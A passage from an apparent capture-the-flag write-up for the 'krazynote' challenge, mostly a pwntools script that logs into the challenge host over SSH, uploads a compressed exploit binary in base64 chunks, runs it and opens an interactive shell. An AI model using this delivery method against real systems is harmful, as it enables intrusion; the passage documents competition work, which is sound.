 ```python
#!/usr/bin/env python2
from pwn import *

def send_command(cmd, print_cmd = True, print_resp = False):
	if print_cmd:
		log.info(cmd)

	p.sendlineafter("$", cmd)
	resp = p.recvuntil("$")

	if print_resp:
		log.info(resp)

	p.unrecv("$")
	return resp

def send_file(name):
	file = read(name)
	f = b64e(file)

	send_command("rm /home/note/a.gz.b64")
	send_command("rm /home/note/a.gz")
	send_command("rm /home/note/a")

	size = 800
	for i in range(len(f)/size + 1):
		log.info("Sending chunk {}/{}".format(i, len(f)/size))
		send_command("echo -n '{}'>>/home/note/a.gz.b64".format(f[i*size:(i+1)*size]), False)

	send_command("cat /home/note/a.gz.b64 | base64 -d > /home/note/a.gz")
	send_command("gzip -d /home/note/a.gz")
	send_command("chmod +x /home/note/a")

def exploit():
	send_file("exploit.gz")
	#send_command("/home/note/a")
	p.sendline("/home/note/a")
	p.interactive()

if __name__ == "__main__":

	#context.log_level = 'debug'
	s = ssh(host="krazynote-3.balsnctf.com", port=54321, user="knote", password="knote", timeout=5)
	p = s.shell('/bin/sh')
	#p = process("./run.sh")
	exploit()

```

I spent about 5~6 hours moaning about this obstacle. Then, I remembered a pwnable challenge that I read a [write-up](https://thekidofarcrania.gitlab.io/2019/06/13/0ctf19-finals/) on. So I thought I should compile my binary with [uclibc](https://www.uclibc.org/). 
